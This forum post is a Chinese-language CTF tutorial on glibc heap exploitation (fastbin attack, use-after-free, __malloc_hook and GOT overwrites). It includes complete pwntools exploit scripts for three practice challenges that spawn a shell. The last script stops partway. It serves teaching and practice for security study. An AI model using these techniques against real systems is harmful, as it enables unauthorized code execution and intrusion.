# [CTF] [Pwn之路] 欢迎来到堆攻击的世界——简单堆溢出原理和例题

- 原帖：https://www.52pojie.cn/forum.php?mod=viewthread&tid=1804736
- 抓取时间：2026-11-01T22:51:02

老规矩了，原文于https://www.freebuf.com/articles/endpoint/371095.html，本人同作者

## 0x00 前言

根据某大佬所说，pwn之路分为栈，堆，和内核。当前，如果你看到这个文章，说明你已经达到一个正在前往pwn深处的分水岭。堆的魔力和魅力实际上远远大于栈，希望我的文章能够帮助到入门的同学们。请注意，如果一些东西看不太明白请参考多方文章并且结合实际来搞明白，这是最好的。

本文的目的希望是让大家不要太害怕堆（就像我当年那样），从而可以继续慢慢踏向pwn这条魅力之路的远方。

### 堆溢出和UAF

> 堆溢出（Heap Overflow）是指在程序执行过程中，向堆（Heap）区域写入超出其分配内存边界的数据，从而覆盖了相邻的内存空间。这可能导致程序崩溃、执行意外行为或者被攻击者利用。
>
> 而UAF是指释放后引用（Use-After-Free）漏洞，它是一种常见的内存安全问题。当程序释放了一个堆上的内存块，但后续仍然继续使用该已释放的内存块，就会产生UAF漏洞。攻击者可以利用UAF漏洞来执行恶意代码，读取敏感数据，控制程序的执行流程等。

> 当堆溢出和UAF漏洞同时存在时，攻击者可以通过利用堆溢出漏洞来修改或篡改已释放的内存块，进而改变UAF漏洞的利用条件或影响其后续的使用。这种组合攻击称为堆溢出的UAF（Heap Overflow Use-After-Free）。攻击者可以通过堆溢出来破坏程序的内存结构，并结合UAF漏洞来实现更复杂的攻击，例如执行任意代码、提升权限或者绕过安全保护机制等。

## 0x01 从fastbin attack谈起

fastbin就是在释放一个小于`global_max_size`的且不小于最小内存的chunk（就是一块堆内存）的时候，用来存放这块堆内存的`bin`~~（垃圾桶）~~他是单链表结构（大家都学过了吧！

> 动态内存堆通常由两个主要的部分组成：一个是堆的头部（Heap Header），用于记录堆的状态和元数据信息，另一个是堆的主体（Heap Body），用于存储分配出去的内存块和空闲内存块。
>
> 堆的主体通常是由一块或多块连续的虚拟内存区域组成，每个区域通常是由多个内存块（Block）组成，每个内存块包含一个头部和一个实际的数据部分。头部通常用于记录内存块的状态（已分配或空闲）、大小、指向下一个或上一个内存块的指针等信息。

是不是听起来不像人话哈哈，那直接看看代码吧！

```
struct BlockHeader {
    size_t size;            // 内存块的大小，包括头部信息和数据部分
    struct BlockHeader* next;   // 指向下一个内存块的指针
    int is_free;            // 标记内存块是否空闲
};

// 堆的主体信息
struct Heap {
    struct BlockHeader* head;   // 指向堆中第一个内存块的指针
    size_t size;            // 堆的大小，包括已分配和空闲的内存块
};
```

### 1. 攻击的第一步：修改指针

> 当我们释放一个符合大小的内存堆A，A会被分到fastbin中。再释放一个符合大小的内存堆B，B也会被分到fastbin，此时B中存放的`next`指针就是A。如果再释放一次A，那么A的`next`就会指向B，两边就相互指了，达成修改`next`指针的目的。
>
> 我们也可以直接覆盖数据修改内存堆中存放的`next`指针。
>
> 修改指针有什么用呢？
>
> 我们修改指针就可以在下次申请内存的时候申请到我们控制的内存！
>
> 因为fastbin是这样用的，我们刚才释放了B，随后我们再申请相同大小的，我们就会得到B，然后再申请一次就会得到B指向的A。
>
> 所以，如果我们申请得到B，并且B中存放的`next`是C，那么再次申请就会得到C，随后可以修改C中的内容。
>
> 那么我们要修改哪里的内容呢？
>
> 这时我们需要了解一个为了安全而危险的函数——“`malloc_hook`”

### 2. 攻击的第二步：hook u！

> `malloc_hook` 函数是GNU C库（glibc）中的一个特殊函数，它可以被用来重写 `malloc()`、`realloc()`、`free()` 等内存管理函数的实现，从而对程序的内存分配和释放过程进行自定义的控制和监测。
>
> 通过设置 `malloc_hook` 函数指针，我们可以在程序调用 `malloc()`、`realloc()` 等函数时，先执行我们自定义的一些操作或者根据一些条件来决定是否执行标准的内存分配/释放操作，比如检测内存泄漏、记录内存分配/释放信息等等。同时，还可以将自定义的实现与标准的内存管理函数结合起来，实现更加灵活的内存管理策略。
>
> 在每次调用`malloc`和`realloc`，`free`之前，都会先调用`malloc_hook`，从而达到检测和自定义函数的目的。

`typedef void *(*__malloc_hook)(size_t size, const void *caller);`

> 那么一旦我们修改了`malloc_hook`函数指针，我们就可以在下次`malloc`或者`realloc`，`free`之类的时候执行到我们需要执行的地址（如调用`system`，gadget之类），至此漏洞利用完成。
>
> 实际上，这种思路也会用于`got`表劫持、UAF之类的漏洞，即修改相关调用函数的地址，达成劫持程序流的目的。也不只是fastbin attack，下文的UAF和Tcache attack（也许算是一种）也是类似的原理。

### 3. 从写代码者（非攻击者）方面的一点补充

知己知彼，百战不殆。了解这个函数是做什么的，我们能更好地利用他。（此处可以略过）

> `malloc_hook` 是一个函数指针，它可以被用于在程序调用标准的动态内存分配函数 `malloc()`、`calloc()`、`realloc()`、`valloc()`、`aligned_alloc()` 和 `memalign()` 时，实现自定义的内存分配策略。
>
> 当程序调用上述任何一个动态内存分配函数时，系统会首先检查是否定义了 `malloc_hook` 函数指针，如果定义了，则会调用该指针所指向的函数来进行内存分配。通过使用 `malloc_hook` 函数指针，程序可以实现动态内存分配的拦截和自定义，可以用于调试、内存泄漏检测、性能分析等应用场景。
>
> `malloc_hook` 函数指针的类型定义如下：
>
> `typedef void *(*__malloc_hook)(size_t size, const void *caller);`
>
> 其中，第一个参数 `size` 表示要分配的内存大小，第二个参数 `caller` 是调用动态内存分配函数的函数的返回地址。`malloc_hook` 函数指针所指向的函数必须返回一个指向分配到的内存块的指针，如果返回 `NULL`，则表示内存分配失败。
>
> 需要注意的是，使用 `malloc_hook` 函数指针需要非常小心，因为它可以覆盖程序中的标准动态内存分配函数，可能会导致系统崩溃或者内存泄漏等问题。建议仅在必要的情况下使用，并遵循相应的规范和最佳实践。

## 0x02 例题 hitcontraining_uaf

### 1. 分析程序

本题的漏洞是UAF，漏洞在于删除堆块的函数没有将指针置为0，这使得我们可以修改相关内存。这个程序会在分配堆的时候在之前分配一个有关`puts`的堆，存有`print_note_content`函数和参数，用来调用打印heap信息。接着下一个才是申请的堆块。



如果我们覆盖这个函数为`magic`，那么我们就可以在打印的时候调用`magic`。



### 2. 整体思路

整体思路是，利用UAF漏洞，先释放两个大堆块，在申请一个小堆块，这样的话第一次申请`putheap`的堆的话是申请第二次释放的`putheap`的堆，再申请我们要申请的堆，就会申请到第一次释放的`putheap`的堆，然后修改`putheap`堆的函数地址，达到目的。(Tcache后进先出)。

### 3. 利用过程讲解

```
add(16,b'0')
add(16,b'0')
```

执行这些之后，堆上是这样的。

（`vis`（visble）命令可以直接查看，全称是`vis_heap_chunk`）



可以看到紫色的是`putheap`函数和参数，而绿色才是第一个申请的堆块，蓝色是第二个`putsheap`的函数和参数，橙色是第二个堆块。

```
free(0)
free(1)
```

执行这些之后，堆上是这样的。释放后的到了Tcache bin中。



```
magic = 0x8048945
add(8,p32(magic))
```

接着我们申请8字节大小的内存，和`putsheap`函数的内容大小一样。

执行第一步，根据Tcache后进先出，蓝色被分配用于存放`putsheap`函数和参数（当前还没参数）。



执行第二步，紫色用于作为我们申请的内存，并且写入`magic`地址，注意，这里本来应该是执行`putsheap`的地址，所以在打印堆块的时候会执行这个函数，然后拿到权限。



执行，拿到权限。



### 4. 完整exp

```
from pwn import *

context(os='linux', arch='amd64', log_level='debug')

p = process('./heap')
p = remote('node4.buuoj.cn', 28490)
elf = ELF('./heap')
libc = ELF('./libc.so.6')

n2b = lambda x    : str(x).encode()
rv  = lambda x    : p.recv(x)
ru  = lambda s    : p.recvuntil(s)
sd  = lambda s    : p.send(s)
sl  = lambda s    : p.sendline(s)
sn  = lambda s    : sl(n2b(n))
sa  = lambda t, s : p.sendafter(t, s)
sla = lambda t, s : p.sendlineafter(t, s)
sna = lambda t, n : sla(t, n2b(n))
ia  = lambda      : p.interactive()
rop = lambda r    : flat([p64(x) for x in r])

if args.G:
    gdb.attach(p)

def add(size,content):
    sla(':',str(1))
    sla(':',str(size))
    sla(':',content)

def edit(idx, content):
    sla(':','2')
    sla(':',str(idx))
    sla(':',str(len(content)))
    sla(':',content)

def free(idx):
    sla(':','2')
    sla(':',str(idx))

def dump(idx):
    sla(':','3')
    sla(':',str(idx))

add(16,b'0')
add(16,b'0')

free(0)
free(1)

magic = 0x8048945 

add(8,p32(magic))
dump(0)
ia()
```

## 0x03 例题2 [ZJCTF 2019]EasyHeap（fastbin attack）

### 1. 分析程序

本题的漏洞是fastbin attack,一个没有打印内容的菜单题目。



此处不限制输入长度，有堆溢出漏洞。



### 2. 整体思路

我们使用0x01的思想，覆盖调用函数，把`free`的`got`表掉包成`system`的`plt`表，不就可以执行`system（堆指针）`了吗？那么此时如果堆指针存着`/bin/sh`，我们就可以执行`system（‘/bin/sh’）`提权了。（注意字符串实际上就是一个指针，并且结尾是`\x00`）

> 这里是删除堆的函数，会执行`free(堆指针)`并且进行指针清零，所以不能用UAF，但是可以整fastbin attack。



> 感觉这里相当于栈溢出的ret2sys

### 3. 利用过程讲解

#### 3.1 需要用到的堆

先创建三个堆，分别为`heap0`，`heap1`，`heap2`。

```
add(0x68,b'6')#0
add(0x68,b'6')#1 
add(0x68,b'6')#2
```

#### 3.2 李代桃僵

`heap2`是fastbin attack的排头兵，他用来被送到fastbin attack，然后修改他的`fd`指针为程序存放`heap`指针的数组（下面简称为数组）。

这样在申请内存时根据fastbin的先进先出，先申请到`heap2`，然后就是申请到数组作为伪装堆。





`0x6020e0`是`heap`指针数组，这里不能直接伪装堆块，因为没有记录大小，我们需要往前找找看看有没有记录到大小的。往前找是为了能写到后面的指针数组。



发现偏移`-0x33`时，刚好伪装成了大小是`0x7f`的堆块。

> Fastbins是一种用于存储已释放的小型堆块的堆管理技术。具体的Fastbins大小通常会根据不同的堆实现和系统架构而有所不同。在典型的GNUC库中，Fastbins的大小范围通常是32字节到128字节之间。

```
free(2) 
#释放到fastbin，进行fastbin attack，具体方式是修改fd为heap指针附近的地址
edit(1,b'/bin/sh\x00'+b'\x00'*0x60+p64(0x71)+p64(0x6020ad))
#在heap1写binsh，0x6020ad是修改fd为刚才定位到的fake heap
```

修改后如下。



#### 3.3 移花接木

申请到数组之后，把`heap0`的地址改为`free`的`got`表的地址。

```
add(0x68,b'6')#把2恢复回来
add(0x68,b'6')#创建fake heap，实际上是heap指针数组前面0x33
edit(3,b'\x00'*0x23+p64(elf.got['free']))#覆盖heap0为free的got表
```

这里是`0x23`是因为前面有`0x10`用来存堆头了。

修改前：



修改后：注意看第一个指针已经变成`0x602018`，即`free`的`got`表。





#### 3.4 借刀杀人

编辑`heap0`，此时实际上已经被移花接木为`free`的`got`表。我们将`free`的`got`表改为`system`的`plt`表。


```
edit(0,p64(elf.plt['system']))#覆盖free的got为system的plt
```

由于在调用`free`时，是先找`free`的`plt`表，然后跳转到`free`的`got`表在执行一次跳转，此时把`free`的`got`表改为`sysetm`的`plt`，就会调到`system`去执行。

最后执行`free(1)`，实际上就是执行`system('/bin/sh')`，提权成功。





### 3. 完整exp

```
from pwn import *

context(os='linux', arch='amd64', log_level='debug')

#context(os='linux', arch='amd64')

p = process('./heap')

#p = remote('node4.buuoj.cn', 26065)

elf = ELF('./heap')

libc = ELF('./libc.so.6')

n2b = lambda x    : str(x).encode()

rv  = lambda x    : p.recv(x)

ru  = lambda s    : p.recvuntil(s)

sd  = lambda s    : p.send(s)

sl  = lambda s    : p.sendline(s)

sn  = lambda s    : sl(n2b(n))

sa  = lambda t, s : p.sendafter(t, s)

sla = lambda t, s : p.sendlineafter(t, s)

sna = lambda t, n : sla(t, n2b(n))

ia  = lambda      : p.interactive()

rop = lambda r    : flat([p64(x) for x in r])

if args.G:

    gdb.attach(p)

def add(size,content):

    sla(':','1')

    sla(':',str(size))

    sla(':',content)

def edit(idx, content):

    sla(':','2')

    sla(':',str(idx))

    sla(':',str(len(content)))

    sla(':',content)

def free(idx):

    sla(':','3')

    sla(':',str(idx))

add(0x68,b'6')#0 用于写free的got为system

add(0x68,b'6')#1 用于存放binsh和覆盖2

add(0x68,b'6')#2 用于构造fastbin attack，写heap0指针为free的got表

free(2) #释放到fastbin，进行fastbin attack，具体方式是修改fd为heap指针附近的地址

edit(1,b'/bin/sh\x00'+b'\x00'*0x60+p64(0x71)+p64(0x6020ad))

#在heap1写binsh，0x6020ad是刚才定位到的fake heap

add(0x68,b'6')#把2恢复回来

add(0x68,b'6')#创建fake heap，实际上是heap指针数组前面0x33

edit(3,b'\x00'*0x23+p64(elf.got['free']))#覆盖heap0为free的got表

edit(0,p64(elf.plt['system']))#覆盖free的got为system的plt

free(1)#执行system（原来是free）,参数为‘/bin/sh’

ia()
```

### 0x04 例题3 babyheap_0ctf_2017

`babyheap_0ctf_2017`，我的第一道堆，`fastbin attack`。此题依然是菜单题目，不过多了一个`dump`用于打印堆信息。详细的题解可以参考其他文章，此处`exp`注释作为帮助理解，可以略过，难度对新手来说较大。

```
from pwn import *
#context(os='linux', arch='amd64', log_level='debug')
context(os='linux', arch='amd64')

p = process('./heap')
p = remote('node4.buuoj.cn', 29639)
elf = ELF('./heap')
libc = ELF('./libc.so.6')

n2b = lambda x    : str(x).encode()
rv  = lambda x    : p.recv(x)
ru  = lambda s    : p.recvuntil(s)
sd  = lambda s    : p.send(s)
sl  = lambda s    : p.sendline(s)
sn  = lambda s    : sl(n2b(n))
sa  = lambda t, s : p.sendafter(t, s)
sla = lambda t, s : p.sendlineafter(t, s)
sna = lambda t, n : sla(t, n2b(n))
ia  = lambda      : p.interactive()
rop = lambda r    : flat([p64(x) for x in r])

if args.G:
    gdb.attach(p)

def add(size):
    #p.sendlineafter(':','1')
    #p.sendlineafter(':',str(size))
    sla(':',str(1))
    sla(':',str(size))

def edit(idx, content):
    sla(':','2')
    sla(':',str(idx))
    sla(':',str(len(content)))
    sla(':',content)

def free(idx):
    sla(':','3')
    sla(':',str(idx))

def dump(idx):
    sla(':','4')
    sla(':',str(idx))

add(0x10)#0
add(0x10)#1
add(0x80)#2

add(0x30)#3
add(0x68)#4
add(0x50)#5

edit(0,p64(0)*3+p64(0xb1))#修改堆1的尺寸这样才能泄露下一个堆的内容！
free(1)#释放他！让我得到更大的，一会输出！
add(0xa0)#得到了！程序现在知道了要输出0xa0！（但实际上没那么大）
edit(1,p64(0)*3+p64(0x91))#恢复chunk2信息！
free(2)#释放，你去吧！unsortedbin！带回来地址
dump(1)#输出0xa0，得到地址！
base = u64(ru('\x7f')[-6:].ljust(8,b'\x00'))#是main_arena的地址，还有一点偏移！
base -= 0x3c4b78#这个偏移可以用gdb的disass *malloc_trim找到！第三十三行
libc.address = base
print(hex(base))

hook = libc.sym.__malloc_hook
#ini1 = libc.sym.memalign_hook_ini
#ini1 = libc.sym.realloc_hook_ini

getshell = base+0x4526a#one_shot,来自onegadget！
print(hex(hook))
free(4)#送去fastbin，准备攻击！
edit(3,p64(0)*7+p64(0x71)+p64(hook-0x23))#-0x23是为了申请堆时误导大小为0x7f通过认证！随后进行覆盖！（和0x01一样，说的修改fastbin的fd指针，一会就会申请到这里的内存）
add(0x68)#2
